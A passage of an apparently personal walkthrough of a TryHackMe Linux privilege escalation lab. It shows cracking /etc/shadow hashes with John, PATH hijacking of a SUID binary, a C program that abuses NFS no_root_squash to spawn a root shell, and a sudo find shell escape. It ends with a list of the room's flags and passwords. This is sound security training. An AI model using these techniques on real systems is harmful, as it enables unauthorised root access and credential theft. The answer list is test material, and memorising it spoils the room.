$6$WHmIjebL7MA7KN9A$C4UBJB4WVI37r.Ct3Hbhd3YOcua3AUowO2w2RUNauW8IigHAyVlHzhLrIUxVSGa.twjHc71MoBJfjCTxrkiLR.
```

Then I cracked it using John:

```bash
john --wordlist=/usr/share/wordlists/rockyou.txt matt.txt
```



### Answer

```text
123456
```

Matt’s password was `123456`.

Strong password strategy.

If this was prehistoric password selection, Matt was drawing passwords on cave walls.

## Task 10 — Privilege Escalation: PATH

`PATH` is an environment variable that tells Linux where to look for commands.

When you type:

```bash
ls
```

Linux checks the folders inside `$PATH` until it finds an executable named `ls`.

To see the current PATH:

```bash
echo $PATH
```



The privilege escalation idea is:

If a privileged program runs a command without using the full path, and we can control where Linux looks first, we may be able to hijack that command.

Example:

```text
Program runs: thm
Instead of: /usr/bin/thm
```

If we create our own `thm` file and put its folder first in PATH, the program may run our fake `thm`.

That is PATH hijacking.

Basically, Linux asks:

“Where is `thm`?”

And we answer:

“Right here, bestie.”

## PATH Questions

### What is the odd folder you have write access for?

The room notes suggested using:

```bash
find / -writable 2>/dev/null
```



The folder that stood out was:

### Answer

```text
/home/murdoch
```

`murdoch` stood out because it looked like a real user directory, not a random system folder.

So I checked `/home`.



There were multiple user folders, including:

```text
matt
murdoch
ubuntu
```

Inside `/home/murdoch`, I found:

```text
test
thm
thm.py
```

When I inspected `thm.py`, it showed that the program tried to run a command called:

```text
thm
```

using something like:

```python
os.system("thm")
```

The issue is that `thm` was called without an absolute path.

It did not say:

```text
/usr/bin/thm
```

So Linux would search through `$PATH` to find `thm`.

There was also a root-owned SUID binary named `test`.

That was the interesting part.

If `test` runs as root and calls `thm`, then I can create my own `thm` and make `test` run it.



When I tried running `test`, it complained that `thm` was not found.

That confirmed the path hijacking idea.

## Getting `flag6.txt`

My plan was simple.

Create a fake `thm` script that reads the flag:

```bash
echo "cat /home/matt/flag6.txt" > thm
```

Then make it executable:

```bash
chmod +x thm
```

Then add `/home/murdoch` to the beginning of PATH:

```bash
export PATH=/home/murdoch:$PATH
```

Putting `/home/murdoch` first matters.

Linux checks PATH from left to right, so it will find my fake `thm` before checking other folders.

Then I ran the SUID binary:

```bash
./test
```



I made a small mistake at first by missing `/` before `home`, so the command did not work properly.

Classic.

One tiny slash missing and Linux starts acting like I insulted its family.

After fixing the path, it worked.



### Flag

```text
THM-736628929
```

Note: This could also be used to spawn a root shell, but reading the flag directly worked, so I kept it simple.

Sometimes you do not need to open the whole fridge.

You just need the snack.

## Task 11 — Privilege Escalation: NFS

NFS stands for **Network File System**.

It allows directories to be shared over the network.

The important file is:

```bash
/etc/exports
```

This file controls what folders are shared and what options they use.

The dangerous option here is:

```text
no_root_squash
```

Normally, NFS prevents a remote root user from acting like root on the shared folder.

That protection is called root squashing.

If `no_root_squash` is enabled, root on the attacking machine can create files on the NFS share that stay owned by root on the target.

That means we can create a root-owned SUID binary through the share and then run it on the target.

Very bad configuration.

Very useful lab moment.

## NFS Questions

### How many mountable shares can you identify?

From my attacking machine, I used:

```bash
showmount -e <target-ip>
```



It showed three mountable shares.

### Answer

```text
3
```

### How many shares have `no_root_squash` enabled?

On the target, I checked:

```bash
cat /etc/exports
```



All three shares had `no_root_squash`.

### Answer

```text
3
```

### What is the content of `flag7.txt`?

To exploit this, I first created a mount point on my attacking machine:

```bash
mkdir /tmp/attack
```



Then I mounted the target’s NFS share:

```bash
sudo mount -t nfs -o rw 10.49.129.17:/tmp /tmp/attack
```



Now anything I created inside `/tmp/attack` on my Kali machine would appear inside `/tmp` on the target.

Inside the mounted folder, I created a C file named:

```text
nfs.c
```



The code was:

```c
#include <unistd.h>
#include <stdlib.h>

int main(void)
{
    setgid(0);
    setuid(0);
    system("/bin/bash -p");
    return 0;
}
```

What this does:

```c
setgid(0);
setuid(0);
```

sets the group ID and user ID to root.

```c
system("/bin/bash -p");
```

starts Bash while preserving privileges.

The `-p` is important because Bash may drop privileges unless told to preserve them.

So this program basically says:

“Become root, then open Bash.”

Subtle? No.

Effective? Yes.

I saved it as `nfs.c`.



Then I compiled it:

```bash
gcc nfs.c -o nfs
```

After that, I set the SUID bit:

```bash
chmod +s nfs
```



Because the share had `no_root_squash`, the file appeared on the target with root ownership and SUID permissions.

On the target machine, I checked the file:



Then I ran it:

```bash
./nfs
```



And I got root.

Then I moved to Matt’s home directory and read the flag:

```bash
cat /home/matt/flag7.txt
```



### Flag

```text
THM-89384012
```

This one felt like proper privilege escalation.

Mount share.

Write C.

Compile.

Set SUID.

Run.

Become root.

Very cinematic.

Very “I definitely understand Linux now” until the next task humbles me.

## Task 12 — Capstone Challenge

Now came the final part.

No more hand-holding.

The room gave us credentials:

```text
Username: leonard
Password: Penny123
```

The goal was to get both flags and become root.

Finally, an unguided privilege escalation.

Let’s gooo.

Confidence level: questionable.

But we move.

## Capstone — Flag 1

I logged in as `leonard`.

First, I checked sudo permissions:

```bash
sudo -l
```

Sadly, there was nothing useful.

So I moved to SUID enumeration:

```bash
find / -type f -perm -04000 -ls 2>/dev/null
```



And there it was again.

Our trusted friend:

```text
base64
```

I used the same SUID method from before to read `/etc/shadow`:

```bash
base64 /etc/shadow | base64 --decode
```



Inside `/etc/shadow`, I found another user:

```text
missy
```

I copied Missy’s hash and saved it into a file on my machine.

Then I cracked it with John the Ripper:

```bash
john --wordlist=/usr/share/wordlists/rockyou.txt missy.txt
```



John found the password:

```text
Password1
```

Then I switched to Missy:

```bash
su missy
```



I checked:

```bash
whoami
```

It returned:

```text
missy
```

Now I needed to find the first flag.

So I searched:

```bash
find / -name flag1.txt 2>/dev/null
```



Then I read it:



### Flag 1

```text
THM-42828719920544
```

## Capstone — Flag 2

The second flag was likely in a root-only location, so I needed root access.

This time, Missy had useful sudo permissions.

I found that she could run `find` with sudo.

GTFOBins time.



GTFOBins showed this method:

```bash
sudo find . -exec /bin/sh \; -quit
```

Breaking it down:

```text
sudo find .
```

runs `find` as root.

```text
-exec /bin/sh \;
```

makes `find` execute `/bin/sh`.

```text
-quit
```

stops after running it once.

So `find` becomes a root-shell delivery service.

I ran:

```bash
sudo find . -exec /bin/sh \; -quit
```



And I got root.

After that, I found and read the second flag.

### Flag 2

```text
THM-168824782390238
```

## Final Answers

### Task 3 — Enumeration

```text
Hostname: wade7363
Kernel version: 3.13.0-24-generic
Linux version: Ubuntu 14.04 LTS \n \l
Python version: 2.7.6
Kernel vulnerability: CVE-2015-1328
```

### Task 5 — Kernel Exploit

```text
THM-28392872729920
```

### Task 6 — Sudo

```text
Programs karen can run with sudo: 3
flag2.txt: THM-402028394
Nmap command: sudo nmap --interactive
Shadow hash:
$6$2.sUUDsOLIpXKxcr$eImtgFExyr2ls4jsghdD3DHLHHP9X50Iv.jNmwo/BJpphrPRJWjelWEz2HH.joV14aDEwW1c3CahzB1uaqeLR1:18796:0:99999:7:::
```

### Task 7 — SUID

```text
Comic book writer user: gerryconway
user2 password: Password1
flag3.txt: THM-3847834
```

### Task 8 — Capabilities

```text
Binaries with set capabilities: 3
Other binary: view
flag4.txt: THM-9349843
```

### Task 9 — Cron Jobs

```text
User-defined cron jobs: 4
flag5.txt: THM-383000283
Matt password: 123456
```

### Task 10 — PATH

```text
Odd writable folder: /home/murdoch
flag6.txt: THM-736628929
```

### Task 11 — NFS

```text
Mountable shares: 3
Shares with no_root_squash: 3
flag7.txt: THM-89384012
```

### Task 12 — Capstone

```text
flag1.txt: THM-42828719920544
flag2.txt: THM-168824782390238
```

## Closing Thoughts

This room was exactly what I needed after realizing that privilege escalation is not just “get a shell and magically become root.”

It is a process.

Enumerate first.

Check the basics.

Look for weak sudo rules.

Look for SUID binaries.

Check capabilities.

Read cron jobs.

Inspect PATH.

Check NFS exports.

And when stuck, go back to enumeration instead of panicking in the terminal like a lost NPC.

The biggest lesson from this room is simple:

Privilege escalation is not one technique.

It is a checklist mindset.

Every task showed a different kind of mistake:

```text
Old vulnerable kernel
Overpowered sudo permissions
Dangerous SUID binaries
Misused capabilities
Writable cron scripts
PATH hijacking
no_root_squash on NFS
Weak passwords
```

By the end, the capstone felt less scary because the earlier tasks had already built the pattern.

I still would not call myself good at privilege escalation.

But at least now when I get a low-privileged shell, I have a plan.

Tiny progress.

Root-flavored progress.

